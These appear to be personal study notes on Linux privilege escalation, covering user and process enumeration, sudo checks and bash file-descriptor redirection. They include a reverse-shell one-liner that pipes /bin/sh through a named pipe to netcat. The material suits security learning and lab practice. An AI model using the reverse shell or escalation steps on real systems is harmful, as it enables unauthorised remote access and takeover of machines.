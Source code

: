 ## Things in the past that have worked into getting root

Always watch for other users: useful commands: w groups id users

Watch for other processes (specially anything from root), sometimes you may be able to modify an executable that they usually run: useful commands: ps

To redirect and in general for file descriptors:

remember that > is for ouptut and < for input (this also does substitution)

num1>&num2 to redirect num1 to num2 (if you concatenate multiple the output of one will travell until it can be outputed somewhere)

num> file to redirect the file descriptor to file (read num becomes file) (it is important as then you may not be able to redirect another file descriptor to num, as bash reads redirections rigth to left)

exec: allows to open new file descriptors (and execute another command) that can be used for later: Ex: 3 <> path/file

mkfifo name: creates a file descriptor with name "name" (it somewhat behaves as a file): Ex mkfifo pipe1; /bin/sh -i 2>&1 0<pipe1 | nc 127.0.0.1 2020 1>pipe1

Sometimes your user will already have extra priveges you can use, for example having a sudo executable without password: commands: sudo -l
